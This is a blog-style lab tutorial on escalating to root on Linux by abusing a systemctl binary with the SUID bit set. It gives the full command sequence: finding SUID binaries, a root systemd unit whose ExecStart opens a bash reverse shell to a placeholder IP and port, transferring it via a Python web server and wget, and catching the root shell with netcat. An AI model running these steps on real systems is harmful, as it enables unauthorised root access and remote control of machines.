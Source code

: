 +++
author = "kiwiyumi"
date = "2024-01-23"
description = "Privilege Escalation in Systemctl with SUID"
title = "Privilege Escalation in Systemctl with SUID"
tags = [
    "privesc"
]
+++

<!--more-->

Systemctl is a command-line tool for managing and monitoring services, installed on Linux operating systems. The tool consists of a variety of utilities for managing daemon processes, systems and libraries. 

### Creating the laboratory
To create the lab I recommend that you have two virtual machines, one containing the operating system you want to be the attacker, while the other, I recommend installing a linux server because it doesn't consume much of the computer.

![image](/assets/images/priv-systemctl/78c24f35-0e6a-4bae-9368-3543ea67b0e2.jpeg)

When creating the virtual machine with an ubuntu server, create any user and then enable SSH communication:

```bash
sudo apt install openssh-server

```
If the service has not started after installation, start the SSH process:
```bash
sudo systemctl start ssh

```
Now let's configure the **systemctl** service to have SUID permissions. There are two options for doing this, select the one you prefer:
```bash
sudo chmod 4755 /usr/bin/systemctl

```

or

```bash
sudo chmod u+s /usr/bin/systemctl
```
To validate that our binary has the SUID permission now, let's check with the following command, note that it is necessary to have the letter s between the permissions:
```bash
ls -la /usr/bin/systemctl
-rwsr-xr-x 1 root root 996584 Mar 27 2023 /usr/bin/systemctl
```
### Exploit time
From that moment on, you already have access to the victim's server, but in our lab context, you have made the SSH connection to the victim's machine with the user and password configured.
The reconnaissance process to find SUID binaries with possible means of escalation is usually carried out using the **find** command, as shown below:
```bash
find / -perm -u=s -type f 2>/dev/null
```
As a result of the previous command, you can see some binaries classified as SUID, but note that systemctl appears:

![](/assets/images/priv-systemctl/b85178a4-8be4-4baa-bbb6-5f669cfe4fa6.jpeg)

To exploit the vulnerability, we need to create a fake service, the intention of which is to provide a reverse shell, so let's create a file called **superService.service** on the attacker's machine, inside which we'll have the following content:

```bash
[Unit]
Description=Privilege Escalation in Systemctl

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target
```

**Unit**
- **Description**: Refers to a short description of what the service is about.

**Service**
- **Type**: Specifies the type of service, in our case it's a simple service and we don't need to involve complex fork processes.
- **User**: Defines the user under which it will be executed, in this case we are defining the root user.
- **ExecStart**: Indicates the command or script that the process will execute when the service is started. For our lab we are creating a reverse connection, remember to change your IP and the Port you want to use.

**Install**
- **WantedBy**: Indicates when the service should be started. In this case, we have set it to multi-user mode.

Now that the file has been created, we just need to transfer it to the victim's server. There are several ways to do this, one of which is to create a web server with python3 using the **http.server** module. Let's go into the .system directory and open the server:
```bash
python3 -m http.server
```
By default, the http.server module opens port 8000, but you can change this by entering the port after the command mentioned above.
Returning to the victim's machine, we'll access the **/tmp** directory and then download the .system file using wget, changing the IP and PORT to your IP and chosen port:
```bash
wget IP:PORT/super-service.system
```
With the file downloaded to the victim's machine, let's first open our netcat to listen to the port we configured in the file:
```bash
nc -lnvp PORT
```
Enable the service:
```bash
/bin/systemctl enable /tmp/superService.service
```
If everything went well, you will then get a message saying that the syslink was created successfully. All you have to do is start the service and get your reverse shell:
```bash
/bin/systemctl start superService
```
The other terminal will contain your shell:
```bash
$ nc -lnvp 9000
Listening on 0.0.0.0 9000
Connection received on IP PORT
bash: cannot set terminal process group (22306): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/# 
```

#### References
- https://www.liquidweb.com/kb/what-is-systemctl-an-in-depth-overview/
- https://gtfobins.github.io/gtfobins/systemctl/#suid
- https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/